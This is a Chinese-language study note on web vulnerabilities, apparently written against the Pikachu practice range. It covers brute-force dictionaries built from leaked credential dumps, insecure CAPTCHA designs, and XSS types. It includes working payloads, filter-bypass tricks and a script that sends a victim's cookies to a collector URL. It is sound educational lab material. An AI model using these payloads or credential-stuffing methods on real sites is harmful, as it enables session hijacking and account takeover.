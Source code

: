 # Web安全


## 暴力破解漏洞

暴力破解 = 连续性尝试 + 字典+ 自动化

### 有效的字典

>- 弱口令
>- 社工库，已收集的账号密码，比如脱裤收集的，可以撞库
>- 使用指定字符利用工具按照规则生成密码
>- 常用账户密码，如admin/root
>- 遵循注册时的密码要求

### 漏洞测试流程

> - 确认暴力破解的可能性，如抓包
> - 优化字典，如密码限定字符、长度
> - 配置自动化工具，如超时时间、重试次数
>
> - [常见字典](https://github.com/danielmiessler/SecLists)
> - 注意事项：字典导入时不能有中文路径

### 验证码

> - 作用
>   - 登陆暴力破解
>   - 防止机器恶意注册
> - 认证流程
>   - 登陆页面，后台生成验证码，同时使用算法生成图片，并将图片response给客户端，同时将算法生成的值全局赋值存到 SESSION中
>   - 校验验证码，客户端将认证信息和验证码一同提交，后台对提交的验证码与 SESSION里面的验证码进行比较
>   - 客户端重新刷新页面，再次生成新的验证码，验证码算法中一般包含随机函数，所以每次刷新都会改变
> - 不安全验证码 - 客户端
>   - 使用前端js实现验证码(纸老虎)
>   - 验证码在cookie容易泄露，可被获取
>   - 将验证码在前端源代码中泄露，容易被获取
> - 不安全验证码 - 服务端
>   - 验证码在后台不过期，导致可以长期被使用
>   - 验证码校验不严格，逻辑出现问题
>   - 验证码设计的太过简单或者有规律，容易被猜解
>   - session？

### 防范措施

> - 设计安全的验证码（安全的流程 + 复杂而又可用的图形）
> - 对认证错误的提交进行计数并给出限制，比如连续5次密码错误，锁定2小时
> - 必要的情况下，使用双因素认证
> - token对防止暴力破解没有用

------



## 跨站脚本漏洞 - XSS

### 跨站脚本漏洞概述

> - XSS漏洞一直被评估为web漏洞中危害较大的漏洞，在 OWASP TOP10的排名前三
>
> - XSS是一种发生在Web前端的漏洞，所以其危害的对象也主要是前端用户
>
> - XSS漏洞可以用来进行钓鱼攻击、前端js挖矿、用户 cookie 获取。甚至可以结合浏览自身的漏洞对用户主机进行远程控制
>
> - 常见类型
>
>   - 反射型，交互的数据一般不会被存在在数据库里面，一次性，一般岀现在查询类页面等
>   - 存储型，存储在数据库里面，永久性，一般岀现在留言板，注册等页面
>   - DOM型，不与后台服务器产生数据交互，是一种通过DOM操作前端代码输出的时候产生的问题，一次性，也属于反射型
>
> - 漏洞形成原因
>
>   主要原因是程序对输入和输出的控制不够严格，导致“精心构造”的脚本输入后，在输到前端时被浏览器当作有效代码解析执行从而产生危害
>
> - 测试流程
>
>   - 在目标站点上找到输入点，比如查询接口，留言板等
>   - 输入一组“特殊字符 + 唯一识别字符”，点击提交后，查看返回的源码，是否有做对应的处理
>   - 通过搜索定位到唯一字符，结合唯一字符前后语法确认是否可以构造执行js的条件（构造闭合）
>   - 提交构造的脚本代码（以及各种绕过姿势），看是否可以成功执行，如果成功执行则说明存在XS漏洞
>
> - TIPS
>
>   - 一般查询接口容易出现反射型XSS，留言板容易岀现存储型XSS
>   - 由于后台可能存在过滤措施，构造的script可能会被过滤掉，而无法生效，或者环境限制了执行(浏览器)
>   - 通过变化不同的script，尝试绕过后台过滤机制

### 反射型XSS(get)

该测试中，前台未进行输入限制，后台未进行输入转义，导致js脚本正常执行，构成反射性XSS

```
<p class='notice'>who is <script>alert('xss')</script>,i don't care!</p> 
```
对于get型XSS，payload直接放在url中

```
http://192.168.43.65/pikachu/vul/xss/xss_reflected_get.php?message=%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E&submit=submit
```

> - GET方式的XSS漏洞更加容易被利用，一般利用的方式是将带有跨站脚本的url伪装后发送给目标，而POST方式由于是以表单方式提交，无法直接使用URL方式进行攻击
> - GET和POST典型区别：GET是以url方式提交数据，POST是以表单方式在请求体里面提交

### 存储型XSS

存储型XSS漏洞跟反射型形成的原因一样，不同的是存储型XSS下攻击者可以将脚本注入到后台存储起来，构成更加持久的危害，因此存储型XSS也称“永久型”XSS。

```
<p class='con'><script>alert('xss')</script></p>
```

```
http://192.168.43.65/pikachu/vul/xss/xss_stored.php
```

### DOM型XSS

[DOM举例](https://www.w3school.com.cn/tiy/t.asp?f=hdom_document_getbyid)

```
源码：<a href='"+str+"'>what do you see?</a>
payload：#' onclick="alert('xss')"/>
闭合：<a href='#' onclick="alert('xss')"/>'>what do you see?</a>
```

### 案例1：GET型XSS获取cookie

```
# 注意pkxss的路径
<script>document.location = 'http://192.168.43.65/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>
```

```
192.168.43.65/pikachu/vul/xss/xss_reflected_get.php?message=<script>document.location+%3D+'http%3A%2F%2F192.168.43.65%2Fpikachu%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D'+%2B+document.cookie%3B<%2Fscript>&submit=submit
```

[什么是cookie？](https://www.jianshu.com/p/6fc9cea6daa2)

### 案例2：POST型XSS获取cookie

### 案例3：XSS钓鱼 - basic认证

### 案例4：XSS键盘记录

>**什么是跨域？**
>
>| http:// | www.   | xyz.com: | 8080 | /script/test.js |
>| ------- | ------ | -------- | ---- | --------------- |
>| 协议    | 子域名 | 主域名   | 端口 | 资源地址        |
>
>当协议、主机（主域名,子域名）、端口中的任意一个不相同时，称为不同域。我们把不同的域之间请求数据的操作，称为跨域操作。

> **跨域-同源策略**
>
> 为了安全考虑，所有的浏览器都约定了“同源策略”,，同源策略规定，两个不同域名之间不能使用JS进行相互操作。
>
> 比如: x.com域名下的javascript并不能操作y.com域下的对象。
>
> 如果想要跨域操作,则需要管理员进行特殊的配置。

### XSS盲打

> 用户提交信息，推测后台管理员会看，输出在管理员看到的页面。获取管理员cookie，冒充管理员在后台为所欲为。

### XSS绕过-过滤-转换

> 1. 前端限制绕过,直接抓包重放,或者修改html前端代码
> 2. 大小写,比如:<SCriPt>
> 3. 拼凑:<scr<script>ipt>
> 4. 使用注释进行干扰:<scri<!--test-->pt>

### XSS绕过-过滤-编码

> 核心思路:
>
> 后台过滤了特殊字符,比如<script>标签,但该标签可以被各种编码,后台不一定会过滤,当浏览器对该编码进行识别时,会翻译成正常的标签，从而执行.
>
> 注意:在使用编码时需要注意编码在输出点是否会被正常识别和翻译.
>
> 例子:
>
> <img src=x onerror=”alert('xss')" />可以把alert("xss")进行html编码
> <img src=x onerror "&#97;&# 108;&# 101;&# 114;&# 116;&#40;&#39;&# 120;&# 115;&# 115;&#39;&#41;



### XSS绕过-htmlspecialchars()使用

### XSS实战练习

> xss-lab，放在xmapp的htdocs文件夹中，打开apache，访问即可。

---

## 相关链接
[视频教程](https://www.ichunqiu.com/course/63838)[|靶场](https://github.com/zhuifengshaonianhanlu/pikachu)